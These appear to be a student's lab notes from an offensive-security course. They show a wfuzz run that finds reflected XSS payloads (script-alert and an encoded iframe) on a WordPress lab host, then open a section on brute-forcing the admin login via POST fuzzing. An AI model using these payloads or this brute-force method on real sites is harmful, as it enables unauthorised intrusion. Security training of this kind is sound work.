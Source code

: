 ##### Labs
1.
![[Pasted image 20241203135352.png]]
identifying the `vulnerable` payload in the parameter
```bash
┌──(root💀gobots)-[03Dec2024 18:44:51]-[/usr/share/seclists/Fuzzing]
└─# wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS-Fuzzing --hc 404,301 http://offsecwp/index.php?xss=FUZZ    
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://offsecwp/index.php?xss=FUZZ
Total requests: 3806
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                
=====================================================================
000000309:   200        0 L      1 W        12 Ch       "<b <script>alert(1)</script>0"                                                                                                        
000000772:   200        0 L      1 W        12 Ch       "<b <script>alert(1)</script>0"                                                                                                        
000001235:   200        0 L      1 W        12 Ch       "<b <script>alert(1)</script>0"                                                                                                        
000001698:   200        0 L      1 W        12 Ch       "<b <script>alert(1)</script>0"                                                                                                        
000002161:   200        0 L      1 W        12 Ch       "<b <script>alert(1)</script>0"                                                                                                        
000002624:   200        0 L      1 W        12 Ch       "<b <script>alert(1)</script>0"                                                                                                        
000003087:   200        0 L      1 W        12 Ch       "<b <script>alert(1)</script>0"                                                                                                        
000003550:   200        0 L      1 W        12 Ch       "<b <script>alert(1)</script>0"                                                                                                        
000003731:   200        0 L      1 W        12 Ch       "<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>"                   
Total time: 0
Processed Requests: 3792
Filtered Requests: 3783
Requests/sec.: 0
```
utilizing any `payload` to get flag
![[Pasted image 20241203135543.png]]

---------

#### Fuzzing POST data

In this section, we are going to discuss how to fuzz _POST_ data in an HTTP Request. We will also attempt to brute force our way into the WordPress admin page by testing the _admin_ user.

Let's begin by intercepting some data to visually demonstrate the POST data parameters we're interested in. We can simply navigate to `http://offsecwp/wp-login.php` and enable the _Intercept_ feature under the _Proxy_ tab of Burp Suite. We'll then provide some dummy data to demonstrate our example.
